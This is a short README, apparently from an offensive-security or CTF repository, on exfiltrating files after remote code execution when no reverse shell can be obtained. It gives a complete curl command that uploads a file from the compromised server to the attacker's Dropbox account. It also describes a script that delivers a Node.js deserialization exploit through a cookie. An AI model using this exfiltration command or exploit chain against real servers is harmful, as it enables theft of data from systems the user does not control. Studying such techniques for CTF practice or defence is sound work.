 # RCE_Send_data

Let's take the case when you have exploited a vulnerability in a server and trying to obtain a reverse shell but you are not able to obtain it (no netcat or sh not linked to bash or no python, could be any reason).  
In that case you can send the file (which you want to read) to your dropbox account by executing the following curl command.  
(I know there can be a lot of ways to read a file, I'm just suggesting one.) 

`curl -X POST https://content.dropboxapi.com/2/files/upload --header "Authorization: Bearer <ACCESS_TOKEN>" --header "Dropbox-API-Arg: {\"path\": \"/folder1/flag.txt\"}" --header "Content-Type: application/octet-stream" --data-binary @flag.txt`

This will send the file `flag.txt` to specified path `/folder1/flag.txt`.  

#### Prerequisite
you need to have a dropbox account and access_token for that. you can get it by following this [article](http://99rabbits.com/get-dropbox-access-token/)

The file `send_request.py` sends post request with cookie containig data which is getting exploited by node js deserialization [exploit](https://www.exploit-db.com/exploits/49552).  
check you commands from file `text.js`.

